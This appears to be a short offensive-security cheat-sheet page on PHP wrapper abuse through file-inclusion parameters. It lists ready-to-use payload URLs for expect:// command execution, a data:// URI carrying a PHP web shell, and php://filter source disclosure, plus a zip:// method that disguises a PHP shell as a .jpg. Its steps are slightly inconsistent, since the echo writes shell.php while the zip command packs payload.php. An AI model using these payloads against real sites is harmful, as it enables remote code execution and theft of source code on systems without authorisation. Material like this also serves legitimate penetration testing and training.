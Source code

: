 ```yaml
---
title: "Wrappers"
draft: false
images: []
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### PHP WRAPPER EXPECT
```
http://ex.com/index.php?page=expect://whoami
```
### PHP WRAPPER DATA://
```
http://www.ex.com/index.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```
### PHP WRAPPER FILTER://
```
http://ex.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://ex.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
### PHP WRAPPER ZIP://
```
echo "<?php \$_GET['param1'](\$_GET['param2']); ?>" > shell.php
zip -0 payload.zip payload.php
mv payload.zip shell.jpg;
rm payload.php
```
```
http://ex.com/index.php?page=zip://shell.jpg%23payload.php
```